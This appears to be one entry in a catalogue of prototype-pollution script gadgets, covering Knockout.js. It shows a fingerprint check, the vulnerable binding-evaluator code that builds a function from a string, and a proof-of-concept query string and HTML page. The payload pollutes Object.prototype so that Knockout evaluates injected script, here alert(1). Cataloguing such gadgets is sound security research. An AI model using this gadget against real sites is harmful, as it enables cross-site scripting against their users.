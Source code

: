 ## Knockout.js

URL: https://github.com/knockout/knockout/

### JS Fingerprint
```
(typeof ko !== 'undefined' && typeof ko.version !== 'undefined')
```

### Vulnerable code fragment
https://github.com/knockout/knockout/blob/3281f7308846fa76e294c77295ce6312ae350583/src/binding/expressionRewriting.js#L46-L61
https://github.com/knockout/knockout/blob/9893233413e467a40919237e524b545e335c1050/src/binding/bindingProvider.js#L63-L68
```js
    function createBindingsStringEvaluator(bindingsString, options) {
        // Build the source for a function that evaluates "expression"
        // For each scope variable, add an extra level of "with" nesting
        // Example result: with(sc1) { with(sc0) { return (expression) } }
        var rewrittenBindings = ko.expressionRewriting.preProcessBindings(bindingsString, options),
            functionBody = "with($context){with($data||{}){return{" + rewrittenBindings + "}}}";
        return new Function("$context", "$element", functionBody);

    ...

    function parseObjectLiteral(objectLiteralString) {
        ...
        if (toks.length > 1) {
            for (var i = 0, tok; tok = toks[i]; ++i) {
```

### PoC

```
?__proto__[4]=a':1,[alert(1)]:1,'b&__proto__[5]=,
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/knockout/3.5.1/knockout-latest.js"></script>
<strong data-bind="text:'hello'"></strong>
<script>
  Object.prototype[4]="a':1,[alert(1)]:1,'b";
  Object.prototype[5]=',';
</script>
<script>
  ko.applyBindings({})
</script>
```